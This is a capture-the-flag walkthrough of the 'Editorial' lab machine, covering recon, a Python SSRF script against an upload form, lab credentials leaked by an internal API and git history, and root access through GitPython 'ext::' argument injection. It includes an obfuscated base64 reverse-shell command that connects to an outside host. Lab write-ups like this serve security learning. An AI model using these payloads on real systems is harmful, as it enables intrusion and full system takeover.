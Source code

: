 ```yaml
---
title: Editorial
tags:
  - Linux
  - Fuzzing
  - Python-Scripting
  - Git
---
```

![](Pasted%20image%2020240901150640.png)

## Reconnaissance

First, I added the new hosts to my known ones:

```shell
sudo echo "10.10.11.20 editorial.htb" | sudo tee -a /etc/hosts
```

After that, I performed an Nmap scan:

```shell
nmap -sC -T4 -p- editorial.htb > sC.txt
 
[redacted]
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http
|_http-title: Editorial Tiempo Arriba
```

So I took a look at the webpage:

![](Pasted%20image%2020240901150852.png)

After some inspection, I decided to perform a subdomain scan with [Ffuf 🐳](/notes/tools/Ffuf.md), but I didn't find anything, so I performed a [dirsearch 📁](/notes/tools/dirsearch.md) scan:

```shell
dirsearch -u http://editorial.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

[redacted]
[15:11:18] 200 -    3KB - /about                                            
[15:11:19] 200 -    7KB - /upload
```

> The `/upload` sounds interesting :3. Let's inspect it:

![](Pasted%20image%2020240901151316.png)

## Exploitation

It seems kinda form submission. Let's try to upload a picture and capture the request with [BurpSuite 📙](/notes/tools/BurpSuite.md):

- If you try to preview the image with the URL related to the book set as `127.0.0.1`, the image shown is the default image:

![](Pasted%20image%2020240901154557.png)

![](Pasted%20image%2020240901154609.png)

We can try to check for SSRF capturing the POST request and then fuzzing it with [Ffuf 🐳](/notes/tools/Ffuf.md):

![](Pasted%20image%2020240901160724.png)

```shell
ffuf -w /usr/share/wordlists/SecLists/Discovery/Infrastructure/common-http-ports.txt:FUZZ -u http://editorial.htb/upload-cover -request post.req -fs 61

[redacted]
5000           [Status: 200, Size: 51, Words: 1, Lines: 1, Duration: 93ms]
```

Now we can check what does this target:

![](Pasted%20image%2020240901161041.png)

We've just obtained info related to some service in `127.0.0.1:5000`. I crafted a small script to make easier the ssrf:

```python
import requests
import sys
import json

POST_TARGET = "http://editorial.htb/upload-cover"
GET_TARGET = "http://editorial.htb/"

HEADERS = {"Host": "editorial.htb",
          "Content-Length": "307",
          "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36",
          "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundarypAISdQrbltAeHDXW",
          "Accept": "*/*",
          "Sec-GPC": "1",
          "Accept-Language": "en-US,en;q=0.6",
          "Origin": "http://editorial.htb",
          "Referer": "http://editorial.htb/upload",
          "Accept-Encoding": "gzip, deflate, br",
          "Connection": "close"}

POST_DATA = f"""------WebKitFormBoundarypAISdQrbltAeHDXW
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:5000{sys.argv[1]}
------WebKitFormBoundarypAISdQrbltAeHDXW
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarypAISdQrbltAeHDXW--"""

post_result = requests.post(POST_TARGET, headers=HEADERS, data=POST_DATA)
get_result = requests.get(GET_TARGET+post_result.text)
print(json.loads(get_result.text))
```

If we run it like: 

```shell
python3 expoloit.py /

{'messages': [{'promotions': {'description': 'Retrieve a list of all the promotions in our library.', 'endpoint': '/api/latest/metadata/messages/promos', 'methods': 'GET'}}, {'coupons': {'description': 'Retrieve the list of coupons to use in our library.', 'endpoint': '/api/latest/metadata/messages/coupons', 'methods': 'GET'}}, {'new_authors': {'description': 'Retrieve the welcome message sended to our new authors.', 'endpoint': '/api/latest/metadata/messages/authors', 'methods': 'GET'}}, {'platform_use': {'description': 'Retrieve examples of how to use the platform.', 'endpoint': '/api/latest/metadata/messages/how_to_use_platform', 'methods': 'GET'}}], 'version': [{'changelog': {'description': 'Retrieve a list of all the versions and updates of the api.', 'endpoint': '/api/latest/metadata/changelog', 'methods': 'GET'}}, {'latest': {'description': 'Retrieve the last version of api.', 'endpoint': '/api/latest/metadata', 'methods': 'GET'}}]}
```

We can see that there are some endpoints. If we inspect the `api/latest/metadata/messages/authors` endpoint, we obtain this:

```shell
python3 exploit.py /api/latest/metadata/messages/authors

{'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."}
```

> We've got credentials!: `dev:dev080217_devAPI!@`. We obtained user flag also :D

![](Pasted%20image%2020240901163200.png)

## Privilege Escalation

We first upload linpeas to the machine, and run it. Nothing is clearly a PE, so I decided to take a look at the `apss` directory. Inside of it there is a git configuration. So we can do the following:

```shell
git log #to see the previous commits done
```

![](Pasted%20image%2020240901164410.png)

There is one of them quite interesting which is `downgrading prod to dev`, so we can show more specific data of that commit using:

```shell
git show [commit_hash]

git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae

[redacted]
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass
```

And there it is, we've got prod's creds: `prod:080217_Producti0n_2023!@`.

Once changed the user:

```shell
sudo -l

[redacted]
User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

If we analyze the file:

![](Pasted%20image%2020240901165240.png)

I searched the internet for CVE related to git library and found [https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858)

As it affects versions `[0, 3.1.30]`, I checked the current version in use:

```shell
pip3 list | grep -i git
gitdb                 4.0.10
GitPython             3.1.29
```

So we can exploit this vulnerability :D

I created a `exploit.sh` with the following content:

```bash
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42MC82NjYgMD4mMQ== | base64 -d | bash

# YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42MC82NjYgMD4mMQ== is a simple reverse shell
```

I set up a nc listener, an then I executed the following:

```shell
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh /tmp/exploit.sh'
```

> We are root now, and we've got the root flag :D

![](Pasted%20image%2020240901171120.png)



